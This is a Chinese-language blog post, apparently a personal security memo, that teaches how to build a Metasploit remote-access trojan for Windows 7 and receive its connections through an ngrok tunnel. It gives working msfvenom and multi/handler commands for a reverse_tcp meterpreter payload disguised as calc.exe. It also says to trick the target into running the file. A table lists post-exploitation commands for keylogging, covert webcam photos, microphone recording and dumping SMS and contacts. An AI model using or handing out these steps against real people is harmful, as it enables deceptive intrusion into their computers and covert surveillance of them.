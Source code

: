 ```yaml
---
title: "msf配合ngrok远控基础"
categories: [ "安全技术" ]
tags: [ "webshell","MSF","木马","远控" ]
draft: false
slug: "52"
date: "2019-03-19 20:45:00"
---
```


本文于 2019-03-19 创作，原标题为“msf 生成远控木马及免杀初探”
2019-12-27 重写，删除了包括安卓的部分，只测试 win7 远控的效果

---

## 介绍

远控也就是远程控制，是通过使用户点击我们准备好的远控木马达到控制用户电脑的效果

基础材料：

- Kali 2019.4
- Win7 SP1
- ngrok 免费服务器一台

此外，**ngrok 不是唯一远控服务器端，你的 kali 布置在外网就不用中间商，或者你也可以自己搭建类似的内网穿透服务器**

本文只是基础教程，做备忘录用

## 过程

### 在 msf 中

直接快速后台监听

    handler -H 192.168.2.6 -P 8080 -p windows/x64/meterpreter/reverse_tcp

![][1]

可使用`jobs`

命令查看后台任务，或者按照正常流程来：

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.2.6(本地kali的ip)
set LPORT 8080(本地监听的端口)
set ExitOnSession false(防止假session)
exploit -j -z(-j为后台任务，-z为持续监听)
```

![][2]

### 在 ngrok 中

在[官网][3]注册并开通一个免费隧道

![][4]

ngrok 的端口可以随便填一个大于 1024 的就行，这个填了不能修改

本地的 ip 和端口就是上面设置的 kali 本机的 ip 和端口，后期是可以修改的

申请成功后在 kali 本机上下载 ngrok 的[客户端][5]

解压后在文件夹内新开一个终端，使用命令：

    ./sunny clientid 你的隧道id

就可以开始监听了：

![][6]

ngrok 的基础操作在以前的文章：[《WinRAR 目录穿越漏洞 - CVE-2018-20250 复现》][7]也有写过

### 生成木马的部分

监听部分完成了就可以开始生成木马传给目标主机了

在终端中输入以下命令：

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ngrok免费服务器地址(不包括前面的协议) LPORT=ngrok申请时填的端口 -f exe -o calc.exe

就可以生成一个最基础的，无免杀的远控木马：

![][8]

将这个木马传给目标主机并诱骗点击，在 msf 中则可以获取到 meterpreter 会话：

![][9]

可能会不稳定，这就取决于网络连接状况和免杀效果了,现在的 payload 是一定会被 360 和火绒拦截的

附上`meterpreter`的常用操作命令：

| 命令                  | 功能                                   |
| --------------------- | -------------------------------------- |
| keyscan_start         | 开始键盘记录                           |
| keyscan_stop          | 结束键盘记录                           |
| keyscan_dump          | 下载键盘记录                           |
| record_mic            | 录制声音（如果目标主机上有话筒的话）   |
| screenshot            | 截屏                                   |
| webcam_chat           | 查看摄像头接口                         |
| webcam_list           | 查看摄像头列表                         |
| webcam_stream         | 开启摄像头                             |
| webcam_snap           | 隐秘拍照功能 -i num 指定开启哪个摄像头 |
| run vnc               | 开启远程桌面                           |
| dump_contacts         | 导出电话号码                           |
| dump_sms              | 导出信息                               |
| 可以输入?查看更多命令 |

本文完。

[1]: https://img.soapffz.com/archives_img/2019/03/19/archives_20191227_160836.png
[2]: https://img.soapffz.com/archives_img/2019/03/19/archives_20191227_160608.png
[3]: http://www.ngrok.cc/
[4]: https://img.soapffz.com/archives_img/2019/03/19/archives_20191227_155717.png
[5]: http://www.ngrok.cc/download.html
[6]: https://img.soapffz.com/archives_img/2019/03/19/archives_20191227_160158.png
[7]: https://soapffz.com/27.html
[8]: https://img.soapffz.com/archives_img/2019/03/19/archives_20191227_161533.png
[9]: https://img.soapffz.com/archives_img/2019/03/19/archives_20191227_162045.png